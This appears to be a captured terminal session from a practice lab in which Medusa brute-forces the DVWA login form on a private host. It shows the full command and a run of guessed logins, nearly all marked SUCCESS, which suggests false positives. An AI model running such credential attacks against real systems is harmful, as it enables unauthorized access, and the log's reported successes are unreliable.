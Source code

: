 2025-10-26 11:27:22 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 1 complete) Password: qwerty (1 of 4 complete)
2025-10-26 11:27:22 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: user Password: qwerty [SUCCESS]
2025-10-26 11:27:22 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 4, 2 complete) Password: 123456 (1 of 4 complete)
2025-10-26 11:27:22 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: msfadmin Password: 123456 [SUCCESS]
2025-10-26 11:27:22 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: 123456 (2 of 4 complete)
2025-10-26 11:27:22 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: user Password: 123456 [SUCCESS]
2025-10-26 11:27:22 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 4 complete) Password: password (3 of 4 complete)
2025-10-26 11:27:22 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: user Password: password [SUCCESS]
2025-10-26 11:27:22 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 4, 5 complete) Password: password (2 of 4 complete)
2025-10-26 11:27:22 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: msfadmin Password: password [SUCCESS]
2025-10-26 11:27:22 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 4, 6 complete) Password: qwerty (3 of 4 complete)
2025-10-26 11:27:22 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: msfadmin Password: qwerty [SUCCESS]
2025-10-26 11:27:22 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: admin (3 of 4, 8 complete) Password: 123456 (1 of 4 complete)
2025-10-26 11:27:22 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: admin Password: 123456 [SUCCESS]
2025-10-26 11:27:22 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: admin (3 of 4, 9 complete) Password: password (2 of 4 complete)
2025-10-26 11:27:22 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: admin Password: password [SUCCESS]
2025-10-26 11:27:22 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: admin (3 of 4, 10 complete) Password: qwerty (3 of 4 complete)
2025-10-26 11:27:22 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: admin Password: qwerty [SUCCESS]
2025-10-26 11:27:22 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: root (4 of 4, 11 complete) Password: 123456 (1 of 4 complete)
2025-10-26 11:27:22 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: root Password: 123456 [SUCCESS]
2025-10-26 11:27:22 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: admin (3 of 4, 12 complete) Password: msfadmin (4 of 4 complete)
2025-10-26 11:27:22 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: admin Password: msfadmin [SUCCESS]
2025-10-26 11:27:22 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 13 complete) Password: msfadmin (4 of 4 complete)
2025-10-26 11:27:22 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: user Password: msfadmin [SUCCESS]
2025-10-26 11:27:22 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: root (4 of 4, 14 complete) Password: password (2 of 4 complete)
2025-10-26 11:27:22 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: root Password: password [SUCCESS]
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ medusa -h 10.0.2.5 -U users.txt -P pass.txt -M http \ -m PAGE: '/dvwa/login.php' \ -m FORM: 'username=^USER^&password=^PASS^&Login=Login' \ -m 'FAIL=Login failed' -t 6
Medusa v2.3_rc1 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2025-10-26 11:28:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 1 complete) Password: password (1 of 4 complete)
2025-10-26 11:28:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: user Password: password [SUCCESS]
2025-10-26 11:28:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 2 complete) Password: msfadmin (2 of 4 complete)
2025-10-26 11:28:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: user Password: msfadmin [SUCCESS]
2025-10-26 11:28:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: 123456 (3 of 4 complete)
2025-10-26 11:28:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: user Password: 123456 [SUCCESS]
2025-10-26 11:28:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 4, 5 complete) Password: qwerty (1 of 4 complete)
2025-10-26 11:28:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: msfadmin Password: qwerty [SUCCESS]
2025-10-26 11:28:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 4, 6 complete) Password: msfadmin (2 of 4 complete)
2025-10-26 11:28:54 ACCOUNT FOUND: [http] Host: 10.0.2.5 User: msfadmin Password: msfadmin [SUCCESS]
2025-10-26 11:28:54 ACCOUNT CHECK: [http] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 4, 7 complete) Password: 123456 (3 of 4 complete)
